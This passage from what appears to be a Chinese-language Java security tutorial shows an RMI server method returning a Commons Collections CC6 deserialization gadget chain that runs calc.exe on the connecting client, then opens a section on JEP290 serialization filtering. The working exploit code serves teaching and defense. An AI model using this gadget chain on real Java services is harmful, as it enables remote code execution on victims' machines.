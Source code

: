 ![image-20250309091727495](https://gitee.com/ling-x5/img/raw/master/image-20250309091727495.png)





#### 2、返回恶意结果

给远程服务添加一个返回恶意对象的方法

```java
@Override
public Object getObject() throws RemoteException {
    // 创建Transform数组，构造CC6链条
    HashMap<Object, Object> hashMap = new HashMap<>();
    try {
        Transformer[] transforms = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transforms);
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), new ConstantTransformer(null));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "lingx5");

        hashMap.put(tiedMapEntry, "lingx5");
        Field factory = LazyMap.class.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);
        lazyMap.remove("lingx5");
    } catch (Exception e) {
        e.printStackTrace();
    }
    return hashMap;
}
```

开启服务

![image-20250307143645623](https://gitee.com/ling-x5/img/raw/master/image-20250307143645623.png)

运行客户端

![image-20250307143722992](https://gitee.com/ling-x5/img/raw/master/image-20250307143722992.png)

弹出了计算器

## JEP290

JEP290 全称 **Java Enhancement Proposal 290: Filter Incoming Serialization Data**   Java 增强提案 290：过滤传入的序列化数据
